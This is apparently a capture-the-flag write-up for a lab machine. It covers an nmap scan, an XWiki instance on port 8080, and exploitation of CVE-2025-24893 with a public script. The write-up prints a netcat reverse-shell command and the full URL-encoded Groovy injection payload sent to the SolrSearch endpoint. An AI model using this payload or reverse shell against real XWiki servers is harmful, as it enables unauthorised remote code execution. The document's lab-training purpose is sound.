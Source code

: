 ## Init

The ip I am assigned is `10.10.11.80`. I do a `nmap` scan and find some ports open.
```                                      
┌──(truelyyours㉿kali)-[~/tryhackme/SimpleCTF]
└─$ nmap -sV -A 10.10.11.80
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-10 02:42 EDT
Illegal character(s) in hostname -- replacing with '*'
Illegal character(s) in hostname -- replacing with '*'
Nmap scan report for editor.htb* (10.10.11.80)
Host is up (0.097s latency).
Not shown: 997 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp   open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://editor.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
8080/tcp open  http    Jetty 10.0.20
| http-robots.txt: 50 disallowed entries (15 shown)
| /xwiki/bin/viewattachrev/ /xwiki/bin/viewrev/ 
| /xwiki/bin/pdf/ /xwiki/bin/edit/ /xwiki/bin/create/ 
| /xwiki/bin/inline/ /xwiki/bin/preview/ /xwiki/bin/save/ 
| /xwiki/bin/saveandcontinue/ /xwiki/bin/rollback/ /xwiki/bin/deleteversions/ 
| /xwiki/bin/cancel/ /xwiki/bin/delete/ /xwiki/bin/deletespace/ 
|_/xwiki/bin/undelete/
| http-methods: 
|_  Potentially risky methods: PROPFIND LOCK UNLOCK
|_http-open-proxy: Proxy might be redirecting requests
| http-webdav-scan: 
|   Server Type: Jetty(10.0.20)
|   WebDAV type: Unknown
|_  Allowed Methods: OPTIONS, GET, HEAD, PROPFIND, LOCK, UNLOCK
|_http-server-header: Jetty(10.0.20)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.19
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 110/tcp)
HOP RTT      ADDRESS
1   85.81 ms 10.10.16.1
2   44.21 ms editor.htb* (10.10.11.80)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.92 seconds
```
It looks like an HTTP service running on port 80 and an xwiki on port 8080. Here we can access some posts by a user named `Neal Bagwell` and we can access the user's page as well `http://10.10.11.80:8080/xwiki/bin/view/XWiki/neal`. Of course usually port 80 is open but we have Xwiki on port 8080 so I lookup for any CVEs on Xwiki. And we have [**CVE-2025-24893**](https://www.offsec.com/blog/cve-2025-24893/)!

## CVE Exploit
There does not exist any working Metasploit module yet, but we have [this GitHub link](https://github.com/gunzf0x/CVE-2025-24893/blob/main/CVE-2024-24893.py) that implements the exploit to achieve remote RCE. We can use this to spawn a shell locally and navigate the target system. 
```
┌──(truelyyours㉿kali)-[~/htb/editor]
└─$ python3 CVE-2025-24893.py -t 'http://10.10.11.80:8080' -c 'busybox nc 10.10.16.16 4444 -e /bin/bash'
[*] Attacking http://10.10.11.80:8080
[*] Injecting the payload:
http://10.10.11.80:8080/xwiki/bin/get/Main/SolrSearch?media=rss&text=%7D%7D%7B%7Basync%20async%3Dfalse%7D%7D%7B%7Bgroovy%7D%7D%22busybox%20nc%2010.10.16.16%204444%20-e%20/bin/bash%22.execute%28%29%7B%7B/groovy%7D%7D%7B%7B/async%7D%7D
[*] Command executed

~Happy Hacking
```

![[Pasted image 20250810030501.png]]




